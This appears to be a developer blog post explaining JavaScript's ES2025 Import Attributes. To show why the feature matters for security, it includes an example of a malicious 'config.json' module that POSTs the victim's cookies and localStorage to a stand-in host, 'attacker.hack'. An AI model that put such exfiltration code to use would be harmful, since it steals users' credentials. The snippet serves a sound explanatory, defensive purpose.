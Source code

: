 ```yaml
---
title: "What's new in JavaScript ES2025: Import Attributes"
description: A new way to make module imports more secure.
date: 2024-11-22T21:33:25.684Z
update: 2025-09-12T13:03:04.439Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programming
  - JavaScript
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
themeColor: "#f0db4f"
---
```


<BaselineStatus id="json-modules" />

JavaScript included **Import Attributes**, a feature that lets you explicitly declare what kind of module you're importing. This addition brings enhanced security and clarity to module imports, particularly for JSON and other non-JavaScript modules.

## The Problem with File Extensions

When importing modules on the web, we can't reliably use file extensions to determine module types. A server might send JavaScript code even when requesting a file with a `.json` extension, potentially creating security risks:

```js title="main.js"
import config from "./config.json";
```

What you expect to get:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

What a compromised server could send instead:

```js title="config.json"
export default (function () {
  // Send your API keys to an attacker
  fetch("https://attacker.hack", {
    method: "POST",
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Then return what looks like normal config
  return {
    accessToken: "secret-key",
    refreshToken: "secret-key",
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## The Solution: Import Attributes

Import Attributes let you explicitly declare what type of module you expect, creating a contract that JavaScript environments must enforce:

```diff title="main.js"
- // WITHOUT Import Attributes - potentially unsafe
- import config from "./config.json";
+ // WITH Import Attributes - safe JSON import
+ import config from "./config.json" with { type: "json" };
```

## Where you can use Import Attributes?

The syntax works consistently across different import scenarios:

```js
// Regular imports
import config from "./config.json" with { type: "json" };

// Dynamic imports
const config = await import("./config.json", {
  with: { type: "json" }
});

// Re-exports
export { apiKey } from "./config.json" with { type: "json" };

// JavaScript modules
import module from "./module.js" with { type: "javascript" };

// Web Workers
new Worker("worker.wasm", {
  type: "module",
  with: { type: "webassembly" }
});
```

## Key Benefits

- **Security**: When importing JSON modules, the `type: "json"` attribute guarantees you'll receive either JSON data or an error - never executable code.
- **Consistency**: Provides a standard way to handle different module types across all JavaScript environments.
- **Extensibility**: While JSON modules are the first use case, the syntax is designed to support future module types and additional metadata attributes.
- **Cache Control**: Hosts can use attributes as part of their module caching strategy, with the behavior defined by each environment.

## Practical Applications

- **JSON Modules**: The core use case of import attributes is to reliably load JSON modules. By specifying `type: "json"` you guarantee that the server delivers data as JSON, not potentially malicious code.
- **Dynamic Imports**:  Import attributes allow using dynamic imports (`await import()`) and control over module type, making them more flexible for various use cases.
